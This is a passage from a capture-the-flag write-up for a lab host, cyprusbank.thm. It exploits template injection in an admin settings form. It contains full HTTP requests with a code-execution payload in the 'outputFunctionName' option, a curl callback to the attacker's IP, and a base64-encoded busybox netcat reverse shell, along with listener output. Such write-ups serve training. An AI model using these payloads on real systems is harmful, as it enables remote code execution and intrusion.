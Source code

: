 - For testing SSTI, I used this payload `%%1");process.mainModule.require('child_process').execSync('curl http://[YOUR-THM-IP]');//`.

  ```
  POST /settings HTTP/1.1
  Host: admin.cyprusbank.thm
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 145
  Origin: http://admin.cyprusbank.thm
  Connection: keep-alive
  Referer: http://admin.cyprusbank.thm/settings
  Cookie: connect.sid=s%3Abiprtej0QHoKj7Dm4jk_nVcRJuihb-Xn.VgPcSlULhT2NSNaN3TfsZtyqoD01cKuLK9Qbfww4LgY
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://[YOUR-THM-IP]');//
  
  $ python3 -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.154.1 - - [06/Jun/2025 21:40:21] "GET / HTTP/1.1" 200 -
  10.10.154.1 - - [06/Jun/2025 21:40:22] "GET / HTTP/1.1" 200 -
  10.10.154.1 - - [06/Jun/2025 21:40:22] "GET / HTTP/1.1" 200 -
  ```

- Awesome! SSTI confirmed since I got a connection on my Python server. Now, instead of curling nothing let's do a reverse shell. You will need to encode your reverse shell with base64.

  ```
  POST /settings HTTP/1.1
  Host: admin.cyprusbank.thm
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 200
  Origin: http://admin.cyprusbank.thm
  Connection: keep-alive
  Referer: http://admin.cyprusbank.thm/settings
  Cookie: connect.sid=s%3Abiprtej0QHoKj7Dm4jk_nVcRJuihb-Xn.VgPcSlULhT2NSNaN3TfsZtyqoD01cKuLK9Qbfww4LgY
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC44LjEyMC41MiA0NDQ0IC1lIHNo | base64 -d | bash"');//
  
  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.154.1] 55748
  whoami
  web
  id
  uid=1001(web) gid=1001(web) groups=1001(web)
  ```
  
---